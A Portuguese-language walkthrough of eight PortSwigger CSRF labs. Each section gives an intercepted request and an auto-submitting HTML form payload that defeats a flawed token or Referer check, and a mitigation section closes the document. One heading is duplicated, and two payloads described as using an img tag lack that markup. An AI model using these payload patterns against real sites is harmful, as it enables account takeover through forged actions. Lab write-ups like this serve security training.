

# **Cross-site request forgery (CSRF) | Sonael de A. Angelos Neto**

- ## **Introdução a vulnerabilidade Cross-site request forgery (CSRF)**

  - ### **O que é?**

  Cross-site request forgery (CSRF) é um tipo de ataque que força um usuário a executar ações indesejadas em um site legítimo em que o usuário está autenticado. O atacante tem sucesso em enganar a vítima para que execute as ações indesejadas em um site legítimo em que a vítima está autenticada. O atacante tem sucesso em enganar a vítima para que execute as ações indesejadas em um site legítimo em que a vítima está autenticada.

  - ### **Como funciona?**

  O atacante envia uma solicitação HTTP para o servidor da vítima, que é executada pelo navegador da vítima. O atacante pode usar o CSRF para forçar a vítima a executar ações indesejadas em um site legítimo, como transferir fundos de uma conta bancária ou alterar as configurações de um perfil de rede social. O atacante pode usar o CSRF para forçar a vítima a executar ações indesejadas em um site legítimo, como transferir fundos de uma conta bancária ou alterar as configurações de um perfil de rede social.

---

### Nesse documento, iremos explorar a vulnerabilidade `Cross-site request forgery (CSRF)`, utilizando **8** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

- #### ***CSRF vulnerability with no defenses.***
- #### ***CSRF where token validation depends on request method.***
- #### ***CSRF where token validation depends on token being present.***
- #### ***CSRF where token is not tied to user session.***
- #### ***CSRF where token is tied to non-session cookie.***
- #### ***CSRF where token is duplicated in cookie.***
- #### ***CSRF where Referer validation depends on header being present.***
- #### ***CSRF with broken Referer validation.***

### Ferramentas utilizadas:

- #### [Burp Suite](https://portswigger.net/burp)
    - Nessas explorações, utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

---

## **• CSRF vulnerability with no defenses.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http	

POST /my-account/change-email HTTP/1.1
Host: 0aa300d80338f629c6ad9eb600e60050.web-security-academy.net
Cookie: session=q6TBeWjpAea50lXFsZA47luC1D9jq8Xm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: https://0aa300d80338f629c6ad9eb600e60050.web-security-academy.net
Referer: https://0aa300d80338f629c6ad9eb600e60050.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael@user.net

```

Através dessa requisição, podemos ver que a url de destino é **"/my-account/change-email"**, que o método de envio é **"POST"** e que o corpo da requisição é **"email=sonael@user.net"**.

Com essas informações, podemos criar um script que envie uma requisição para o back-end com o mesmo corpo da requisição que o `Burp Suite` interceptou:

```html	

    <form method="POST" action="https://0aa300d80338f629c6ad9eb600e60050.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos um campo de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• CSRF vulnerability with no defenses.**


Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

De novo, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0ac400d6041eae65c06807fa00250023.web-security-academy.net
Cookie: session=VFzDBCX5TjJhPCuEgLaynlv2ZrRnBXOP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0ac400d6041eae65c06807fa00250023.web-security-academy.net
Referer: https://0ac400d6041eae65c06807fa00250023.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael@user.com&csrf=NFfxIx00dHk34Qe86lzRw78pDuDEH46C

```

Através dessa requisição, podemos ver que a url de destino é **"/my-account/change-email"**, que o método de envio é **"POST"** e que o corpo da requisição é **"email=sonael@user.com&csrf=NFfxIx00dHk34Qe86lzRw78pDuDEH46C"**.

Nota-se que o corpo da requisição é composto por dois campos, o **"email"** e o **"csrf"**, e que o valor do campo **"csrf"** é um token gerado aleatoriamente para cada requisição. Isso é feito para evitar que o atacante envie requisições para o back-end com o mesmo token, e assim, conseguir executar ações no back-end sem a permissão do usuário.

Ao enviar a requisição para o repeat do `Burp Suite` e alterar o token, podemos ver que a requisição é rejeita pelo back-end:

**Request** | **Response** 
:---------: | :------:
 |

Porém, se alterarmos o método de envio para **"GET"**, o back-end deixa de verificar o token e a requisição é aceita:

**Request** | **Response** 
:---------: | :------:
 |

Através dessa requisição, podemos concluir que o back-end não está verificando o método de envio da requisição, e que o token é verificado apenas quando o método de envio é **"POST"**.

Com essa informação, podemos criar um script que envie a requisição para o back-end, e que o método de envio seja **"GET"**:

```html	

    <form method="GET" action="https://0ac400d6041eae65c06807fa00250023.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.com">
    </form>
    <script>
            document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"GET"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos um campo de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• CSRF where token validation depends on token being present.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0ab2009e032ec8b2c0c93b4e0040003e.web-security-academy.net
Cookie: session=FDyKqAT0OIOH0D78IP8OmFih4FUrZu6m
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://0ab2009e032ec8b2c0c93b4e0040003e.web-security-academy.net
Referer: https://0ab2009e032ec8b2c0c93b4e0040003e.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonaelneto@user.com&csrf=RP7ilPGwvf8RnQ3Z5PpFd0KdaBryyoDA

```

Nesse Laboratório também encontramos um token `csrf` que é usado para verificar se a requisição é válida e a alteração dele faz com que a requisição seja rejeitada pelo back-end.

Porém, ao enviarmos uma requisição sem o token `csrf`, o back-end aceita a requisição:

**Request** | **Response** 
:---------: | :------:
 |


Através dessa requisição, podemos concluir que o back-end não está verificando se o token `csrf` está presente na requisição, e que ele é verificado apenas quando o token `csrf` é alterado.

com essa informação, podemos criar um script que envie a requisição para o back-end onde o token `csrf` não está presente:

```html	

    <form method="POST" action="https://0ab2009e032ec8b2c0c93b4e0040003e.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos um campo de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.com"` com o email que queremos alterar.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


Agora basta clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• CSRF where token is not tied to user session.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0a45009e042868f9c07cffe700da0036.web-security-academy.net
Cookie: session=XsPuLrJpwc1n3BRjg85B7H41RMZ6YWAL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0a45009e042868f9c07cffe700da0036.web-security-academy.net
Referer: https://0a45009e042868f9c07cffe700da0036.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael@user.com&csrf=6SQVETjONvYVNvq7DMNgxWc9N9AuN6LU

```

Nesse Laboratório também encontramos um token `csrf` que é usado para verificar se a requisição é válida e a alteração dele faz com que a requisição seja rejeitada pelo back-end.

Porém o token não está vinculado a sessão do usuário, e por isso, podemos copiar o token `csrf` e enviar para o back-end através de um script:

```html

    <form method="POST" action="https://0a45009e042868f9c07cffe700da0036.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
        <input type="hidden" name="csrf" value="6SQVETjONvYVNvq7DMNgxWc9N9AuN6LU">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos dois campos de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar, e o `name="csrf"` com o token `csrf` que copiamos da requisição interceptada.

Na tag `<script>`, temos um código que faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---


## **• CSRF where token is tied to non-session cookie.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0acc00e804f49a5dc05ec9c900fc0033.web-security-academy.net
Cookie: session=UXzgn8mDAVP9tOSSQFFQ2rvEeLZlVbmI; csrfKey=xwoZAxsjGsrsGHldRjZw4TsCTNul3FpT; LastSearchTerm=teste
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0acc00e804f49a5dc05ec9c900fc0033.web-security-academy.net
Referer: https://0acc00e804f49a5dc05ec9c900fc0033.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael@user.net&csrf=5797GniNjfmRDZaYUXB1UbXhFq35CTgB

```

Nesse Laboratório também encontramos um token `csrf` que é usado para verificar se a requisição é válida e a alteração dele faz com que a requisição seja rejeitada pelo back-end.

A diferença desse laboratório para o anterior é que o token `csrf` está vinculado a um cookie `csrfKey` que é gerado quando o usuário loga no site.

Porém, o cookie `csrfKey` não é vinculado a sessão do usuário, e por isso, podemos copiar o cookie `csrfKey` e enviar para o back-end através de um script:

```html

    <form method="POST" action="https://0acc00e804f49a5dc05ec9c900fc0033.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
        <input type="hidden" name="csrf" value="5797GniNjfmRDZaYUXB1UbXhFq35CTgB">
    </form>
    

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos dois campos de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar, e o `name="csrf"` com o token `csrf` que copiamos da requisição interceptada.

Além disso, temos uma tag `` que faz uma requisição para o back-end com o parâmetro `search` no valor **"test"** e com o cookie `csrfKey` com o valor **"xwoZAxsjGsrsGHldRjZw4TsCTNul3FpT"**.

A tag `` faz com que o cookie `csrfKey` seja enviado para o back-end, e o `onerror` faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• CSRF where token is duplicated in cookie.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0a2a0012037209e1c1f6766b0076008c.web-security-academy.net
Cookie: session=t2qzhXyWRcXarKyXH4RIhA6XcSCW6IJO; csrf=u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: https://0a2a0012037209e1c1f6766b0076008c.web-security-academy.net
Referer: https://0a2a0012037209e1c1f6766b0076008c.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael%40user.com&csrf=u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm

```

Nessa requisição, podemos ver que o cookie `csrf` é o mesmo que o token `csrf` que está sendo enviado no corpo da requisição.

Através dessa informação, podemos criar um script que envia a requisição para o back-end, e para isso, vamos utilizar o `exploit server` que o laboratório disponibiliza:

```html

    <form method="POST" action="https://0a2a0012037209e1c1f6766b0076008c.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
        <input type="hidden" name="csrf" value="u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm">
    </form>
    

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos dois campos de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar, e o `name="csrf"` com o token `csrf` que copiamos da requisição interceptada.

Além disso, temos uma tag `` que faz uma requisição para o back-end com o parâmetro `search` no valor **"test"** e com o cookie `csrf` com o valor **"u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm"** que é o mesmo que o token `csrf` que está sendo enviado no corpo da requisição.

A tag `` faz com que o cookie `csrf` seja enviado para o back-end, e o `onerror` faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• CSRF where Referer validation depends on header being present.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0a9500f2034fa41dc0750cad00e60058.web-security-academy.net
Cookie: session=9UM1jOLZqrvGIqY2rlDfEZ7QyZTR3awH
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: https://0a9500f2034fa41dc0750cad00e60058.web-security-academy.net
Referer: https://0a9500f2034fa41dc0750cad00e60058.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael%40user.com

```

Nesse laboratório se alterarmos o campo `Referer` da requisição, o back-end não vai aceitar a requisição, porém ao ser removido, o back-end aceita a requisição.

com essa informação, podemos criar um script que envia a requisição para o back-end, e para isso, vamos utilizar o `exploit server` que o laboratório disponibiliza:

```html

<meta name="referrer" content="no-referrer">    
<form method="POST" action="https://0a9500f2034fa41dc0750cad00e60058.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

Note que no script acima, temos a tag `<meta>` com o atributo `name="referrer"` e o valor `"no-referrer"`, que faz com que o `Referer` não seja enviado na requisição.

com isso, basta colocar esse script no `exploit server` que o laboratório disponibiliza:


E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• CSRF with broken Referer validation.**

Ao acessar o laboratório e logar com as credenciais dadas pelo laboratório (**wiener:peter**), temos a seguinte tela:


Nessa tela, temos um botão `"Update Account"` que, não pede nenhum tipo de confirmação, e é através dele que iremos explorar a vulnerabilidade de `CSRF`.

Primeiramente, devemos analisar a requisição que é feita quando clicamos no botão `"Update Account"` para sabermos o que enviar para o back-end, e faremos isso através do `Burp Suite`.

Ao clicar no botão `"Update Account"` mudando o email para **"sonael@user.net"**, o `Burp Suite` intercepta a requisição e nos mostra o que está sendo enviado para o back-end:

```http

POST /my-account/change-email HTTP/1.1
Host: 0a4000d6048bed70c1563ad000cf005b.web-security-academy.net
Cookie: session=UzRArV47E2S3lijyxs8c1BzqZn6cJhuE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net
Referer: https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=sonael%40user.com

```

Assim como no laboratório anterior, se alterarmos o campo `Referer` da requisição, o back-end não vai aceitar a requisição, porém ao ser removido, o back-end aceita a requisição.

Porém se copiarmos o domínio original do laboratório e anexa-lo ao cabeçalho Referer na forma de uma string de consulta. por exemplo:

```http

Referer: https://fake-domain?https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net

```

A requisição será aceita pelo back-end, pois o back-end não está validando o domínio do `Referer`.

com essa informação, podemos criar um script que envia a requisição para o back-end, e para isso, vamos utilizar o `exploit server` que o laboratório disponibiliza:

```html

<form method="POST" action="https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
    </form>
    <script>
        history.pushState("", "", "/?https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net") 
        document.forms[0].submit();
    </script>


```

O comando `history.pushState()` é utilizado para alterar a URL do navegador, e nesse caso, estamos adicionando uma string de consulta na URL.

Assim o `Referer` da requisição será:

```http

Referer: https://exploit-0ada002b0438ed6ec16d395e015000d3.exploit-server.net/?https://0a4000d6048bed70c1563ad000cf005b.web-security-academy.net

```

Agora basta colocar esse script no `exploit server` que o laboratório disponibiliza:


Além disso, temos que alterar o `head` no `exploit server` para `Referrer-Policy: unsafe-url` assim o navegador sempre irá enviar o Referer independente de qualquer coisa.


E finalmente clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.


---

## **• Mitigação.**

Cross-Site Request Forgery (CSRF) é uma vulnerabilidade que permite que um atacante execute ações em nome do usuário sem o conhecimento ou consentimento do usuário. Existem várias maneiras de mitigar essa vulnerabilidade:

- Utilizar tokens de autenticação únicos: Os tokens de autenticação únicos são utilizados para verificar se uma solicitação é válida. Eles são gerados aleatoriamente e adicionados ao formulário HTML ou ao cabeçalho de solicitação. Quando a solicitação é enviada, o token é verificado para garantir que foi gerado pelo site legítimo e não por um atacante.

- Usar o método HTTP POST: O método POST é menos suscetível a ataques CSRF do que o método GET, pois os dados da solicitação são enviados no corpo da solicitação e não como parte da URL. Isso dificulta que um atacante forge a solicitação.

- Utilizar o cabeçalho HTTP "X-CSRF-TOKEN": Este cabeçalho é usado para proteger contra ataques CSRF em aplicativos web modernos. Ele é enviado junto com a solicitação e verificado pelo servidor antes de processar a solicitação.

- Utilizar a verificação de referência: A verificação de referência verifica se a solicitação foi enviada pelo site legítimo. Isso é feito comparando a URL de referência da solicitação com a URL do site legítimo. Se as URLs não corresponderem, a solicitação é considerada inválida e é rejeitada.

- Utilizar o método HTTP "SameSite": O método "SameSite" é um recurso de segurança que impede que um cookie seja enviado com uma solicitação cross-site. Isso pode ser útil na proteção contra ataques CSRF, pois os cookies são frequentemente usados ​​como meio de autenticação.

---
## **• Dificuldades.**

Nenhuma dificuldade relevante  =)

---

## **• Referências.**

- [Cross-Site Request Forgery (CSRF) - OWASP](https://owasp.org/www-community/attacks/csrf)

- [Cross-Site Request Forgery (CSRF) - Portswigger](https://portswigger.net/web-security/csrf)

- [Cross-Site Request Forgery (CSRF)- Acunetix](https://www.acunetix.com/websitesecurity/csrf-attacks/)

- [Cross-Site Request Forgery (CSRF) - Imperva](https://www.imperva.com/learn/application-security/csrf/)

- [Cross-Site Request Forgery (CSRF) - cloudflare](https://www.cloudflare.com/learning/security/threats/cross-site-request-forgery-csrf/)

----

## **• Laboratórios.**

- [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)

- [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)

- [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)

- [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)

- [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

- [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)

- [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


